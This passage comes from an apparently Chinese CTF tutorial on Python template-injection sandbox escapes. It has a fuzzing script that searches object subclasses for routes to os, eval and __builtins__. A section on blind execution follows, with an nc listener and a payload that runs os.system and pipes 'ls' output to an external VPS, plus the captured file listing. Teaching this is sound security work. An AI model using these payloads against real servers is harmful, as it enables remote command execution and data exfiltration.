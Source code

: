 ```python
            except:
                pass

        # items
        elif isinstance(obj, (set, list, tuple, frozenset)):
            for i, v in enumerate(obj):
                yield from visit(v, '{}[{}]'.format(path, repr(i)), depth)

    yield from visit(obj)


num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():
    try:
        if item.__init__.__globals__.keys():
            for path, obj in search(item,5):
                if obj in ('__builtins__','os','eval'):
                    print('[+] ',item,num,path)

        num+=1
    except:
        num+=1
```

**PS：**python2没有自带协程。因此需要在python3下执行。对python3的可利用payload进行测试。

该脚本并不完善，**payload不能直接用，请自行测试修改！**，obj自行补充。另外pyhon执行命令的方式还有subprocess、command等等，上述脚本只给出了三个关键字的**模糊测试**。

脚本跑出来`bulitins`以后还会继续深入递归（继续索引`name`等获取的是字符串值），请自行选择简短的payload即可。

控制递归深度，挖掘更多payload？

*总之，这里只是提供一个想法，希望能有抛砖引玉效果？有兴趣的读者可以自行多去尝试。网上也没有查阅到更多关于如何深入挖掘的资料。希望懂的大佬能教教小弟。*

此处手动分界线。后文讲解做题会遇到的一些问题



## 0x05 无回显处理

nc转发

- vps：`nc -lvp 44444`
- payload: `''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')`

```python
#vps接收到回显
root@iZwz91vrssa7zn3rzmh3cuZ:~# nc -lvp 44444
Listening on [0.0.0.0] (family 0, port 44444)
Connection from [xx.xxx.xx.xx] port 44444 [tcp/*] accepted (family 2, sport 46258)
app.py
app.pyc
error.html
```
